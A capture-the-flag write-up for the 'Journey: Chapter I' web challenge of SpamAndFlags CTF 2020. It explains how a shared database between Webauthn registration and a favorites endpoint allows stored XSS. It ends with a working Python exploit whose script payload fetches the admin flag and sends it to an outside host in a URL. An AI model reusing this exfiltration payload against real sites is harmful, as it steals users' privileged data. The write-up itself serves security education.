 # Journey: Chapter I (web, 278+16 pts, 10 solves)

To quote the source of `admin.html`,
```html
Your flag is: <span id="flag" style="font-weight: bold"></span></br>
<!-- ... -->
jsonReq('/get_admin').then(data => { console.log(data); $("#flag").text(data.flag); // ...
```

In the server source, we see
```javascript
app.get('/get_admin', (req, res) => req.session.isAdmin ? res.send({ flag: process.env.FLAG }) : res.send({ err: 'you are not an admin' }))
app.get('/admin_login', (req, res) => { 
    if (crypto.createHash("sha256").update(req.query.pass).digest("hex") === "03d8cdb4ca4edf3f1a1f85d54ebda0bd456b9a7d68029c8fe27ed1cdd7a4e2f3") {
        req.session.isAdmin = true
        res.redirect('/admin.html')
    }
    else
        res.send({ err: 'incorrect password' })
})
```
This means that we either need a way to change arbitrary things in the session,
or have the admin execute some JavaScript on our behalf. For a moment, we might
contemplate this part of the code:
```javascript
app.use(session({ secret: 'keyboard cat', saveUninitialized: true, resave: false, cookie: { maxAge: 48 * 60 * 60 * 1000 /* 48 hours */ } }))
```
... but a quick look at the documentation of `express-session` shows that
the session contents are stored server-side and the secret is only used to
sign the session ID (which itself is, if I'm reading the code correctly,
24 cryptorandom bytes).

Thus, it seems that XSS is the goal for this part of the challenge.

The problem stems from here:
```javascript
const db = new LevelAdapter('userdb');
const webauthn = new Webauthn({ origin: ORIGIN, store: db, rpName: 'SpamAndFlags CTF 2020 - Journey challenge' })
app.use('/webauthn', webauthn.initialize())
// ...
app.get('/favorites', async function (req, res) {
    const { favId, type } = req.query
    const obj = await db.get(`fav_${favId}`)
    if (obj && type in obj)
        res.send(obj[type])
    else
        res.send({ err: 'not found' })
});
```
The share-your-favorites feature shares the database with Webauthn. Upon a quick
inspection, we see that the latter uses usernames as the database keys:
```javascript
const user = {
  id: base64url(crypto.randomBytes(32)),
  [usernameField]: username,
}

Object.entries(this.config.userFields).forEach(([bodyKey, dbKey]) => {
  user[dbKey] = req.body[bodyKey]
})

await this.store.put(username, user)
```

What's this `userFields` thing? No such key was passed to the Webauthn constructor,
so the default will be used: `['name', 'displayName']`. This means that, if we hit
the `/webauthn/register` endpoint with `name` starting with `fav_`, we can make
the `/favorites` endpoint operate over an object we control:

```python
from random import randint
import requests as rq

URL = "http://journey.ctf.spamandhex.com"
ID = 'pwnujemy' + str(randint(0, 10**9))

payload = '<script>fetch("/get_admin", {method:"GET",credentials:"include"}).then(response => response.text()).then(flag => window.location="https://jakub.kadziolka.net/1337/cat.jpg?"+flag);</script>'

challenge = rq.post(URL+"/webauthn/register",
    json={
        'name': 'fav_' + ID,
        'displayName': payload
    }).json()

report = rq.get(URL+"/report",
    params={
        'url': URL+"/favorites?type=displayName&favId="+ID,
    })
```
